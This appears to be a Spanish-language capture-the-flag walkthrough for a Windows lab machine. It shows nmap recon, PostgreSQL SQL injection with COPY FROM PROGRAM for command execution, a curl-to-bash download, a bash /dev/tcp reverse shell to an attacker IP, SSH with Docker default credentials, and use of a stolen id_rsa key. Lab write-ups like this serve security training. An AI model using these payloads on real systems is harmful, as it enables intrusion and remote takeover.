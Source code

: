 ## Summary

Tags: #Window #FTP #SSH #ID_RSA #Docker #Contenedor #HTTPS #PostgreSQL #ReverShell #Nmap #Curl 

- IP -> 10.10.10.236
- Ports -> TCP (21, 22, 443, 445), UDP (idk)
- OS ->  Windows
- Services & Applications
    - 21 -> FileZilla ftpd
    - 22 -> OpenSSH for_windows_7.7
    - 443 -> Apache httpd 2.4.38

## Launchpad

-   [Launchpad](https://launchpad.net/ubuntu)
-   [RCE-Postgresql](https://book.hacktricks.xyz/network-services-pentesting/pentesting-postgresql)
-   [Docker-Toolbox](https://stackoverflow.com/questions/32646952/docker-machine-boot2docker-root-password)

## Recon

```bash 
❯ nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn ❮Target IP❯  -oG allPorts  # Escaneo de todos los puertos

❯ nmap -sCV -p22,... ❮Target IP❯ -oN targeted
```

```bash 
❯ ftp ❮IP❯             # Si el servidor nos lo permite nos podemos conectar como Anonymous sin password
	❯ binary          # Para poder descargar un archivo exe y que no nos de problemas
	❯ get ❮File❯      # Para descargar un archivo desde el FTP
```

```bash 
❯ openssl s_client -connect ❮dominio.com❯:443   # Para conectarnos al openssl e inspeccionar el certificado

# Agregamos el dominio encontrado al '/etc/hosts'
```

```bash 
# Investigamos la pagina y encontramos un 'Admin Panel', por lo que procedemos a ver si tiene inyecciones SQL

1. Primero probamos con una '

# Al momento de ingresar una ' nos muestra un error y que la DB es 'Pg = Postgresql'

2. Abrimos el 'Burpsuite' y buscamos en 'Google' como hacer inyecciones en Postgresql, por lo que encontramos que se puede hacer un RCE poe medio de la creacion de una tabla en la cual podemos inyectar comandos. 

# Lo siguiente lo haremos en sl 'Burpsuite'
❯ '; CREATE TABLE cmd_exec(cmd_output text);-- -     # Creamos la tabla 
❯ '; COPY cmd_exec FROM PROGRAM 'curl 10.10.14.26';-- -            # Ingresamos el comando a ejecutar y es para verificar si la maquina victima tiene conexion a nuestra maquina de atacante
```

## User

```
❯ '; COPY cmd_exec FROM PROGRAM 'curl http://10.10.14.26 | bash ';-- -  # Para que nos interprete el codigo y nos ejecute la revershell
```

```bash
❯ nano index.html
	#!/bin/bash
	bash -i >& /dev/tcp/10.10.14.2/443 0>&1

	# IP = IP de atacante
	# 443 = Puerto a usar

❯ curl ❮IP❯ | bash                     # Lo que hace Curl es obtener un index.html del servidor y despues con el bash haremos que nos interprete la data en bash
```

```bash 
❯ nc -nlvp 443  # Nos ponemos en esucha para recibir la revershell 
```

```bash 
# Ingresamos al contenedor que en este caso es Linux


❯ script /dev/null -c bash                               # Inicio del tratamiento de la consola 
❯ Ctrl + z
❯ stty raw -echo; fg
❯ reset xterm

# Despues cambiamos esto para poder hacer Ctrl+ l y Ctrl + c
❯ echo $SHELL                                            # Para ver la ruta de shell y ver que valor tiene **/usr/bin/nologin**
❯ export SHELL=bash o ❯ export SHELL=/bin/bash           # Hacemos que shell ahora valga bash
❯ export TERM=xterm                                      # Para poder hacer Ctrl +c y Ctrl + l (l=ele)

❯ export TERM=xterm-256color                             # Para que la shell tenga colores 
	❯ source /etc/skel/.bashrc

# Ahora para modificar las dimensiones de Vim/nano debemos hacer lo siguiente.
❯ stty size                                              # Miramos las dimensiones de la consola
❯ stty rows 51 columns 189  
```

```bash 
❯ ifconfig      # Mirar las interfaces y nos encontramos en un contenedor por la IP '172.17.0.2'

# Como en todo contendor debemos de mirar los puertos abiertos en la IP con la que tenemos conexion '172.17.0.1' 
❯ (echo ‘’ > /dev/tcp/172.16.0.1/22) 2>/dev/null && echo “[+] Puerto abierto” || echo “[+] Puerto cerrado”
```

```bash
❯  ssh docker@172.17.0.1        # Para conectarnos por ssh en el puerto default 22 del contenedor docker, las credenciales son la de defaul y las encontramos investigando en 'Google' buscando 'password docker-toolbox'
```

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ sudo -l                                          # Ver que permisos tenemos en el sudoers (l=ele)

	# (ALL : ALL) ALL
```

```bash
❯ find  / -name user.txt 2>/dev/null               # Para buscar un archivo en el sistema desde la raiz
```

## Root

```bash 
Encontramos un dir '.ssh' en el dir de 'Administrator' del contenedor de docker. Copiamos su contenido en nuestra maquina de atacante en un archivo llamada 'id_rsa' y le damos el privilegio 600

❯ chmod 600 id_rsa                              # Para darle un permiso 600 a la id_rsa      
```

```bash
❯ ssh -i id_rsa Administrator@10.10.10.236      # Nos conectamos desde nuestra maquina de atacante por ssh teniendo un id_rsa con privilegio 600 al puerto 22 que se encuentra abierto en la maquina Windows
```

```bash
❯ whoami                                           # Miramos el nombre del usuario
```

```bash
❯ ipconfig                                         # Nos muestra las interfaces y las direcciones IP de Windows
```